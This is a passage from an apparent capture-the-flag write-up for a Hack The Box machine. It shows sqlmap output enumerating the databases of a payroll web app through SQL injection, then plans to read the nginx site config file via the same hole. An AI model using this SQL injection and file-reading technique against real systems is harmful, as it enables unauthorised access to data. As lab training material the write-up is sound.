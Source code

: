 ```
back-end DBMS: MySQL 5 (MariaDB fork)
[06:59:32] [INFO] fetching database names
[06:59:32] [INFO] fetching number of databases
[06:59:32] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[06:59:32] [INFO] retrieved: 2
[06:59:35] [INFO] retrieved: information_schema
[07:00:22] [INFO] retrieved: @ayroll_db
available databases [2]:
[*] payroll_db
[*] information_schema

[07:01:00] [INFO] fetched data logged to text files under '/home/mark/.local/share/sqlmap/output/preprod-payroll.trick.htb.'

[*] ending @ 07:01:00 /2023-02-07/


```

Since it probably has vhost, then it should be stored in the web server config file 

And this web server uses nginx
![image](https://user-images.githubusercontent.com/113513376/217161449-f9d8cea6-4854-4a88-a807-3c363dca7abb.png)

Now i can read the nginx conf file using the sqli vulnerability. By default its located in `/etc/nginx/sites-enabled/default`

```







